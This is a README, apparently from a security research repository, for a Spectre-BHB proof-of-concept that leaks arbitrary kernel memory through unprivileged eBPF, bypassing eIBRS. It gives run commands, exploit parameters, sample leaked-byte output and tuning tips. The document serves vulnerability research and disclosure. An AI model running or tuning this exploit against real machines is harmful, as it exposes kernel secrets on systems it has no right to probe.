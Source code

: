# Exploit inter-mode and intra-mode

## About

These are a full end-to-end exploit showing how Spectre-BHB can be abused to obtain an arbitrary read primitive to leak kernel memory.

#### What is the difference among inter-mode and intra-mode exploits?

These two exploits share a large portion of code but showcase two completely different threat models:

* [inter_mode](inter_mode) demonstrates how the unprivileged history can be used to mount spectre v2 attacks even in the presence of the ad-hoc hardware defense `eIBRS`.

* [intra_mode](intra_mode) shows same privilege mode exploitation (e.g. kernel to kernel) is not only possible but practical. This is to prove that  BTB-tagging defenses (such as `eIBRS` and `CSV2`) are not safe *by-design* in case of attacker-friendly tools such as unprivileged eBPF.

## How to run

The exploit is meant to be run on the host system and can be simply executed by issuing:

```
make TARGET=INTEL_10_GEN # or INTEL_11_GEN
./run.sh
```

In more details, `run.sh` will start with a setup phase by:

1. Ensuring that unprivileged-eBPF is enabled with `sysctl kernel.unprivileged_bpf_disabled=0`
2. Obtaining a kernel address where to start the leakage. For example, `run.sh` starts leaking from `do_syscall_64`. Any address can be used.
3. Locating the page offset where the `sys_call_table` is stored. This is needed to make the exploit reliable by evicting the `sys_call_table` to enlarge the speculative window. 

After this, the exploit is started by specifying the following parameters:

* `-a` : Start address where to leak in hexadecimal (e.g. `0xffffffffa29f3ac0`)
* `-f` : Eviction+Reload threshold. See run output to tune it (e.g. `40`)
* `-l` : Enable `sys_call_table` eviction to make the exploit reliable
* `-o` : `sys_call_table` page offset in hexadecimal (e.g. `0x300`)
* `-e` : Desired size of reduced `sys_call_table` eviction set. The lower the better but due to the noise it can be hard to obtain one (e.g. `256`)
* `-s` : `sys_call_table` eviction threshold See run output to tune it (e.g. 350)

## Expected output

```
[+] Parsed parameters: 
     -  leaking from                        0xffffffffa29f3ac0
     -  threshold E+R buffer eviction       40
    sys_call_table eviction parameters:
     -  sys_call_table page offset          0x300
     -  threshold sys_call_table eviction   350
     -  eviction set size sys_call_table    256
[+] Syscall time without eviction:          avg: 195.42  min:  170  max:  566
[+] Syscall time with large eviction set:   avg: 764.19  min:  398  max: 1966
[+] Syscall time with small eviction set:   avg: 449.23  min:  388  max: 1926
[+] Required time: 25 seconds
[+] Reload time without eviction:              avg: 11.77  min:   11  max:   13
[+] Reload time    with eviction:              avg: 172.90  min:   66  max:  511
[+] Checking if we can evict all entries: 
    - Entry 0: 0 hits (avg time 160.220001)
    - Entry 1: 0 hits (avg time 83.884003)
    OK!
[+] Required time: 1 seconds
hits: 8 1111111101010011110101111100010110101011101100011011001111010011001101111011011100000111010101001001111010111001001001100010101101010111100110010000111110010100001000111100111111001110111001000000011100111110010101011111100100100000010101110100101001111101
[+] Colliding history found after 5424 tries!
1111111101010011110101111100010110101011101100011011001111010011001101111011011100000111010101001001111010111001001001100010101101010111100110010000111110010100001000111100111111001110111001000000011100111110010101011111100100100000010101110100101001111101
[+] Required time: 4 seconds
0xffffffffa29f3ac0: 54 49 89 f8 08 89 e5 41     TI.....A
0xffffffffa29f3ac8: 44 49 89 84 0f 1f 04 00     DI......
0xffffffffa29f3ad0: 00 65 89 05 e8 5a 62 5c     .e...Zb\
0xffffffffa29f3ad8: 25 ff 03 00 00 48 83 c0     %....H..
0xffffffffa29f3ae0: 0f 25 f8 07 00 00 48 29     .%....H)
0xffffffffa29f3ae8: c4 48 8d 44 24 0f 48 83     .H.D$.H.
0xffffffffa29f3af0: e0 f0 4c 89 c6 4c 89 e7     ..L..L..
0xffffffffa29f3af8: 48 e3 3f 00 00 48 3d b4     H.?..H=.
0xffffffffa29f3b00: 00 00 00 77 2f 48 3d bf     ...w/H=.        72.000000 B/s
0xffffffffa29f3b08: 01 00 00 48 19 d2 48 21     ...H..H!        80.000000 B/s
0xffffffffa29f3b10: d0 4c 89 e7 48 8b 04 c5     .L..H...        88.000000 B/s
0xffffffffa29f3b18: 00 03 00 a3 e8 ff e0 40     .......@        96.000000 B/s
0xffffffffa29f3b20: 00 49 89 44 24 50 4c 88     .I.D$PL.        104.000000 B/s
0xffffffffa29f3b28: e7 e8 10 40 00 00 4c 88     ...@..L.        112.000000 B/s
0xffffffffa29f3b30: 65 f8 c9 c3 89 00 00 00     e.......        120.000000 B/s
0xffffffffa29f3b38: 40 70 eb 48 25 ff ff ff     @p.H%...        128.000000 B/s
0xffffffffa29f3b40: bf 48 3d 23 00 00 00 77     .H=#...w        136.000000 B/s
0xffffffffa29f3b48: dd 48 3d 24 02 00 00 48     .H=$...H        144.000000 B/s
0xffffffffa29f3b50: 19 d2 48 21 d0 44 89 e7     ..H!.D..        152.000000 B/s
0xffffffffa29f3b58: 40 8b 04 c5 00 22 00 a3     @...."..        160.000000 B/s
0xffffffffa29f3b60: e8 bb e8 40 00 49 89 44     ...@.I.D        168.000000 B/s
0xffffffffa29f3b68: 24 50 eb ba 0f 1f 40 00     $P....@.        176.000000 B/s
0xffffffffa29f3b70: 55 65 48 8b 04 25 c0 fb     UeH..%..        184.000000 B/s
0xffffffffa29f3b78: 01 00 48 89 e5 41 54 49     ..H..ATI        192.000000 B/s
0xffffffffa29f3b80: 89 fc 83 48 10 02 48 8b     ...H..H.        200.000000 B/s
0xffffffffa29f3b88: 77 78 07 1f 44 00 00 65     wx..D..e        208.000000 B/s
```

## Troubleshooting

#### [inter-mode only]  Ensure that the system is using `eIBRS` as `spectre_v2` defense and that no `spectre-bhb` mitigations are in place.
On our tested system, by issuing `/sys/devices/system/cpu/vulnerabilities/spectre_v2` we obtain `Mitigation: Enhanced IBRS, IBPB: conditional, RSB filling`.
#### Ensure that the Evict+Reload threshold is correctly selected

By running the exploit we can observe the reload time with and without eviction:

```
[+] Reload time without eviction:              avg: 11.77  min:   11  max:   13
[+] Reload time    with eviction:              avg: 172.90  min:   66  max:  511
```

Thus, a good threshold is `40`, and this can be specified using the argument `-f 40`.
We suggest to use the `avg` and `min` timings as reference to be on the safe side.

In case of a correctly selected threshold all entries will be evicted:

```
[+] Checking if we can evict all entries: 
    - Entry 0: 0 hits (avg time 160.220001)
    - Entry 1: 0 hits (avg time 83.884003)
    OK!
```
	
#### Ensure that the `sys_call_table` is correctly evicted

By running the exploit we can observe the reload time with and without eviction:

```
[+] Syscall time without eviction:          avg: 195.42  min:  170  max:  566
[+] Syscall time with large eviction set:   avg: 764.19  min:  398  max: 1966
```

Thus, a good threshold is `350`, and this can be specified using the argument `-s 350`
We suggest to use the `avg` and `min` timings as reference to be on the safe side.

In case of a correctly selected threshold, the eviction set will be reduced and the timing of the victim syscall will be still high:

```
[+] Syscall time with small eviction set:   avg: 449.23  min:  388  max: 1926
```

#### The `sys_call_table` eviction does not work.

The initial eviction set starts with an hardcoded size of 8192 congruent addresses. On same machines this may not be sufficient so it is necessary to increase this by changing the `SYS_CALL_TABLE_EV_SET_SIZE` constant.


#### I only leak 00 bytes

Very likely this means that the transient window is too small and thus that the `sys_call_table` eviction does not correctly work.

#### I cannot find a colliding history

This step may take a bit of time, especially on the 11th gen. Intel processors. We suggest to wait until ~300'000 tries are made.

